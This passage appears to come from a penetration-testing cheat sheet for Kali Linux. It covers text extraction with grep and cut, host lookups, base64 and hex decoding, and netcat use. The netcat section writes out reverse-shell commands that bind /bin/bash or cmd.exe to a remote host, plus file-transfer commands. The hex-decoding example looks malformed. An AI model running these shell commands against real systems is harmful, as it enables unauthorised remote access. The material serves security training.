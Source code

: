 Extract all the lines that contain a string  
>grep "href=" index.html

Cut a string by a delimiter, filter results then sort  
>grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u

Using Grep and regular expressions and output to a file  
>cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort -u > list.txt

Use a bash loop to find the IP address behind each host  
>for url in $(cat list.txt); do host $url; done

Collect all the IP Addresses from a log file and sort by frequency  
>cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn

### Decoding using Kali

Decode Base64 Encoded Values
>echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode

Decode Hexidecimal Encoded Values
>echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps

### Netcat - Read and write TCP and UDP Packets

Download Netcat for Windows (handy for creating reverse shells and transferring files on windows systems):
[https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)

Connect to a POP3 mail server  
>nc -nv $ip 110

Listen on TCP/UDP port  
>nc -nlvp 4444

Connect to a netcat port  
>nc -nv $ip 4444

Send a file using netcat  
>nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe

Receive a file using netcat  
>nc -nlvp 4444 > incoming.exe

Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

>whereis nc
>
>nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz
>
>/bin/nc.traditional -e /bin/bash 1.2.3.4 4444

Create a reverse shell with Ncat using cmd.exe on Windows  
>nc.exe -nlvp 4444 -e cmd.exe
>
>or
>
>nc.exe -nv 'Remote IP' 'Remote Port' -e cmd.exe
